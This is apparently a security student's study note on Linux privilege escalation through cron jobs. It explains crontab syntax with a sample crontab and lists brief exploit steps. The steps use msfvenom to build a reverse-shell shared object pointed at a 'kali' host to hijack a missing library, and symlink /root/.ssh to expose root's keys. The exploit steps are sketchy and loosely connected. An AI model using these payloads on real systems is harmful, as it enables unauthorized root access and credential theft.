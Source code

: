 [Linux Privilege Escalation by Exploiting Cronjobs - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[Cron Jobs – Linux Privilege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/cron-jobs-lpe/)

Cron is another tool that can be used in Linux systems to schedule and automate processes. It allows users and administrators to execute tasks at a specific time or within specific intervals. For the above examples, we can also use Cron to automate the same tasks. We just need to create a script and then tell the cron daemon to call it at a specific time.

Similar vulnerabilities to [[AutoRun SysInternals]] and similar to [[Scheduled Tasks]]
# Guide
To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks.

The structure of Cron consists of the following components:

|**Time Frame**|**Description**|
|---|---|
|Minutes (0-59)|This specifies in which minute the task should be executed.|
|Hours (0-23)|This specifies in which hour the task should be executed.|
|Days of month (1-31)|This specifies on which day of the month the task should be executed.|
|Months (1-12)|This specifies in which month the task should be executed.|
|Days of the week (0-7)|This specifies on which day of the week the task should be executed.|

For example, such a crontab could look like this:

Code: txt

```txt
# System Update
* */6 * * /path/to/update_software.sh

# Execute scripts
0 0 1 * * /path/to/scripts/run_scripts.sh

# Cleanup DB
0 0 * * 0 /path/to/scripts/clean_database.sh

# Backups
0 0 * * 7 /path/to/scripts/backup.sh
```





# Exploit Examples

## Compiled Program

1. Run `lld` on the program

```
linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```

2. Generate a malicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev directory`.

```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali 
```

3. Link the file:

```
 ln -s /root/.ssh /tmp/backup/-root-.ssh
```